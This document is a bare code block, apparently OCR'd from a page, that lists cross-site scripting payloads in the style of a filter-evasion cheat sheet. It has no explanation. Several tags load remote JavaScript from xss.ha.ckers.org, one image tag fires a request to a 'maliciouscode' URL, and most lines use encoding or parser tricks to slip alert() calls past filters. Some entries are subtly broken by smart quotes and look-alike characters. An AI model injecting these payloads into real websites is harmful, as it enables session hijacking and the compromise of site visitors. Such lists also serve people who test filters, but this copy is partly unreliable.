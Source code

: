 
```

<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
 
<SCRIPT a=">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT =">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT "a='>'" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<A href=https://www.baidu.com/>link</A>
 
<IMG SRC=javascript:alert(‘XSS’)>
 
<IMG SRC=# οnmοuseοver=”alert(‘xxs’)”>
 
<IMG SRC=/ οnerrοr=”alert(String.fromCharCode(88,83,83))”></img>
 
<img src=x οnerrοr=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>
 
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
 
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
 
<IMG SRC=”jav ascript:alert(‘XSS’);”>
 
<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>
 
<IMG SRC=” &#14;  javascript:alert(‘XSS’);”>
 
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
 
<IMG SRC=”javascript:alert(‘XSS’)”
 
</script><script>alert(‘XSS’);</script>
 
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
 
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
 
<svg/οnlοad=alert('XSS')>
 
<IMG SRC=’vbscript:msgbox(“XSS”)’>
 
<BGSOUND SRC="javascript:alert('XSS');">
 
<BR SIZE="&{alert('XSS')}">
 
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
 
```